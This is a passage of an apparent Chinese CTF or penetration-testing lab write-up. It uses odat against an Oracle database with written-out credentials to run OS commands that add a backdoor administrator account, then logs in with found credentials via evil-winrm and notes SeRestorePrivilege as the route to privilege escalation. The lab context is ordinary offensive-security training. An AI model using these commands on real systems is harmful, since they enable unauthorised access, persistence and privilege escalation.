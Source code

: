 用odat打oracle

```bash
proxychains4 odat dbmsscheduler -s 172.22.14.31 -p 1521 -d ORCL -U xradmin -P fcMyE8t9E4XdsKf --sysdba --exec 'net user ttest Test@123 /add'
proxychains4 odat dbmsscheduler -s 172.22.14.31 -p 1521 -d ORCL -U xradmin -P fcMyE8t9E4XdsKf --sysdba --exec 'net localgroup administrators ttest /add'
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114145631-yxfciuz.png?imageSlim)​

随后rdp连过去读flag

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114150005-6dptfh1.png?imageSlim)​

### 第三关

关卡剧情：攻击办公区内网，获取办公 PC 控制权限，并通过特权滥用提升至 SYSTEM 权限。

在internal-secret/credentials.txt里找到XR-0923的账密

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114150135-ih2pys6.png?imageSlim)​

```bash
zhangshuai/wSbEajHzZs
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114150331-5ijqzbn.png?imageSlim)​

rdp连过去之后发现权限较低，无法读取flag

```bash
net user zhangshuai
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114150606-6tcdqye.png?imageSlim)​

发现zhangshuai是Remote Management Use组的

可以参考[https://forum.butian.net/share/2080](https://forum.butian.net/share/2080)

使用`evil-winrm`​连接此机器

```bash
proxychains evil-winrm -i 172.22.14.46 -u zhangshuai -p wSbEajHzZs
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114150752-sp4jzf0.png?imageSlim)​

```bash
whoami /priv
```

可以发现再查看用户权限，发现多了一个`SeRestorePrivilege`​

SeRestorePrivilege提权,参考:

[https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B9%9D%E7%A7%8D%E6%9D%83%E9%99%90%E7%9A%84%E5%88%A9%E7%94%A8](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B9%9D%E7%A7%8D%E6%9D%83%E9%99%90%E7%9A%84%E5%88%A9%E7%94%A8)
